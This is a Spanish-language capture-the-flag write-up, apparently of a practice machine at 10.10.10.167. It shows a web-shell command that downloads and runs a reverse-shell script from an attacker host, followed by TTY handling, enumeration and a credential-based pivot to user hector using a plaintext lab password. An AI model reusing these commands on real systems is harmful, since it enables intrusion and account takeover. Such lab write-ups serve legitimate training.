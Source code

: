     ```bash
    http://10.10.10.167/uploads/s4vishell.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString("http://10.10.14.15/Invoke-ConPtyShell.ps1")
    ```

Ya tenemos accesso al systema

### Tratamiento de la TTY {-}

```bash
^Z
stty raw -echo; fg
-> enter
-> enter

whoami
#output
error

cd C:\
#output
error
```

Los dos primeros commandos nos da un error pero a partir de aqui, ya tenemos una full tty shell.

### Enumerando el systema {-}

```bash
cd Users/
dir
cd Hector
dir
#Output
Error

cd ../Administrator
dir
#Output
Error
```

No tenemos derechos para entrar en los directorios de los Usuarios. Pero tenemos una contraseña para el usuario Hector.

### User pivoting al usuario hector {-}

Vemos si podemos lanzar commandos como el usuario hector.

```bash
hostname
#Output
Fidelity

$user = 'fidelity\hector'
$password = 'l33th4x0rhector'
$secpw = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCrendential $user,$secpw
Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {whoami}
#Output
control\hector
```
